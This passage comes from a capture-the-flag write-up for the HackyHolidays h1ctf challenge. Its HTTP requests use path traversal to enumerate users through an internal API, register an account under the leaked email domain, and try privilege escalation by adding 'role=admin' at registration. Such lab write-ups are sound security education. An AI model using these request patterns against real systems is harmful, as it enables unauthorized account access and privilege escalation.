 ```http
POST /p/../v1/users/1 HTTP/1.1
Host: c2.hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

email=test@test.com
```

The response returned is
```json
{"error":"User not found"}
```
So now we can actually enumerate users
8) We iterate through user IDs until we get to user ID `5`.
And we get a registered email with a unique domain
`graham.rinch@this.is.h1.101.h1ctf.com`

![email-domain](https://user-images.githubusercontent.com/55701068/151598416-f8e69fbd-79d7-4451-b3db-78c938e62273.png)

9) We now have a good idea what the allowed domain might be. We proceed and register an account with that domain

```http
POST /register/ HTTP/1.1
Host: c2.hackyholidays.h1ctf.com
Content-Length: 87
Content-Type: application/x-www-form-urlencoded

email=w31rd0%40this.is.h1.101.h1ctf.com&password=Password123!&c_password=Password123!
```
And we can grab the flag once we are authenticated in our newly  created account.

![flag9](https://user-images.githubusercontent.com/55701068/151598503-67a5aa63-6137-4e03-aed4-ea0f26347502.png)

**DAY 10 - How to Become The grinch (Ho-Ho-Ho)**
--------------------
1) Using our previously created account we notice a few new sections exist within the application. There is an `uploads` directory as also a `settings`.
2) We notice that our user permissions are `Read-Only` and it seems that we can change our `password`, but not our `role`.

![read](https://user-images.githubusercontent.com/55701068/151598546-33e28618-d150-4935-8c5b-29154172a215.png)

However we discover that even if we try to update out password, nothing happens. Similarly if we add the `role` parameter to our request, we stay with `Read-only` privileges. Since this endpoint seems to have no effect, we go back a bit.
3) We now create a new account and try to add a `role` parameter, just in case we can set our user role upon registration.
We send the request below

```http
POST /register/ HTTP/1.1
Host: c2.hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

email=w31rd0%2B1%40this.is.h1.101.h1ctf.com&password=Password1&c_password=Password1&role=admin
```
